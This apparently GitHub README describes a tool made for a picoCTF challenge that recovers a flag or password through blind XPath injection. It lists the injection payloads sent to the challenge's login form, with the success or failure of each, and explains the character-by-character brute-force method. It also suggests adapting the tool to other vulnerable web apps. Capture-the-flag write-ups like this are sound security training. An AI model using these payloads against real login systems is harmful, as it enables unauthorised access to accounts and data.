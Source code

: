 # XPATH-Injection-Password-finder
A tool using XPATH injections &amp; python to find the password of a user in the database. 
This tool is especially useful for blind XPATH injections!

This tool was wrote specifically for the picoCTF challenge 'X marks the Spot' however the code is simple and can be edited for 
to crack passwords on other web apps vulnerable to XPATH injections where we can use functions like starts-with(), count(), substring().

-----------------------------------------------------------------------
How it works

The vulnerable website is located at 'http://mercury.picoctf.net:53735'
and takes a username and a password. I orignally thought this was a SQL
injection but I was wrong.

If we enter with username:admin,password:admin
we get a login failed. I used BurpSuites proxy
to take this into the Repeater so I can easily send
accross expoits to see the result

We log in with a POST request and the data is in the form

name=admin&password=admin

If you enter a ' an error throws, nice.
'Internal Server Error'

If we enter 

name=' or '1'='1&pass=test (SUCCESS)

we get 'Your on the right path.' Great, this must be a blind SQL and all we get back is if the XPATH returns true or false
now, see if you follow my train of thoughts and hopefully understand how this works by the end of these conseutivve exploits

 name=' or 'x'='y&pass=test (FAIL)
 
 
 name' or 1=1 or 'x'='y&pass=test (SUCCESS) 
 
 
 name' or //*[starts-with(text(),'randomWord')] or 'x'='y&pass=test (FAIL)
 
 
 name' or //*[starts-with(text(),'picoCTF{')] or 'x'='y&pass=test (SUCCESS)
 
 
 name' or //*[starts-with(text(),'picoCTF{a')] or 'x'='y&pass=test (FAIL)
   .
   .
   .
name' or //*[starts-with(text(),'picoCTF{h')] or 'x'='y&pass=test (SUCCESS)


name' or //*[starts-with(text(),'picoCTF{ha')] or 'x'='y&pass=test (FAIL)
    .
    . 
    .
name' or //*[starts-with(text(),'picoCTF{h0')] or 'x'='y&pass=test (SUCCESS)
    
    
    
basically you have to brute force each character and check if the new string exists in the data base (therefore will return true and add that character to the string now) or if it doesnt exist in the database it will return false and try the next character
 
